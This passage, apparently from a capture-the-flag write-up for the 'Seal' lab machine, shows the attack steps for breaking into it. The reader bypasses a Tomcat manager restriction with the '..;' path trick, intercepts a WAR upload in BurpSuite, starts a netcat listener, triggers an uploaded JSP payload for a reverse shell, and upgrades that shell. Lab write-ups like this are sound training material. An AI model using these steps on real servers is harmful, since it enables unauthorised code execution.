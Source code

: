 To bypass this, intecept the war upload request to `/manager/status/..;/html` using BurpSuite's proxy.
![intercept](screenshots/intercept.png)

Go back to `https://seal.htb/manager/status/..;/html` to verify the successful payload upload.
![success](screenshots/success.png)

Start a listener with `nc -lvnp 1337` and then visit https://seal.htb/payload/lyibvpiewin.jsp in the web browser to abuse code execution.

Upgrade the shell with
```
python3 -c "__import__('pty').spawn('/bin/bash')"
Ctrl+Z
stty -echo raw
fg
export TERM=linux
```
